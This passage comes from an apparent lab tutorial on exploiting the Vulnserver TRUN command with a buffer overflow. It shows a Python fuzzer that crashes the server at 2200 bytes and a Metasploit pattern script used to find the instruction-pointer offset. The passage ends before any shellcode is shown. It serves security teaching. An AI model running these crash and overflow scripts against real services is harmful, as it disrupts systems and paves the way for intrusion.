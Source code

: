 We have successfully crashed our server and tha payload data begins with ```TRUN /.:/``` which is made up of ```9 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat fuzzing.py    
import socket, sys
from time import sleep
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.141", 9999))
        s.send((b"TRUN /.:/"+payload))
        sleep(1)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit() 
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 fuzzing.py
Fuzzing crashed at 2200 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```2200 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding Offset

By finding offset, we can locate the approximate buffer space size for writing data into the base pointer and instruction pointer

To find the offset, we need to create a pattern and crash the program

So that the value in the registers can be used to find the offset of it from buffer data

To create a pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 2500
<GENERATED PATTERN>
```

Fuzzing with the created pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat find_offset.py
import socket, sys
payload=b"<GENERATED PATTERN>"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.141", 9999))
s.send((b"TRUN /.:/"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ python3 find_offset.py
```
